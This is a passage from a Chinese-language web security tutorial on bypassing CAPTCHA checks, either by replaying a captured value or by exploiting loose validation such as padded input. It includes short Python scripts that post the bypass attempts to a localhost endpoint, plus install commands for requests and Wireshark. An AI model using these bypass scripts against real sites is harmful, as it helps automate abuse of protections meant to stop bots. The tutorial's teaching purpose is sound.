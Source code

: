 #### 3.2.3 验证码存储不当绕过
1. **抓包分析**：使用抓包工具（如Wireshark）捕获验证码传输过程，获取验证码值。
2. **提交捕获的验证码**：使用自动化工具提交捕获的验证码。

```python
import requests

url = "http://localhost/verify_captcha.php"
captured_captcha = "abcd"

data = {"captcha": captured_captcha}
response = requests.post(url, data=data)
if "success" in response.text:
    print("Bypass成功！")
```

#### 3.2.4 验证逻辑缺陷绕过
1. **分析验证逻辑**：通过查看验证代码，分析验证逻辑是否存在缺陷。
2. **构造特定输入**：根据分析结果，构造特定输入（如大小写、空格）绕过验证。
3. **提交构造的输入**：使用自动化工具提交构造的输入。

```python
import requests

url = "http://localhost/verify_captcha.php"
constructed_captcha = " 1234 "

data = {"captcha": constructed_captcha}
response = requests.post(url, data=data)
if "success" in response.text:
    print("Bypass成功！")
```

## 4. 实际命令、代码或工具使用说明

### 4.1 Python requests库
**安装**：
```bash
pip install requests
```

**使用**：
```python
import requests

url = "http://localhost/verify_captcha.php"
data = {"captcha": "1234"}
response = requests.post(url, data=data)
print(response.text)
```

### 4.2 Wireshark
**安装**：
```bash
sudo apt-get install wireshark
```
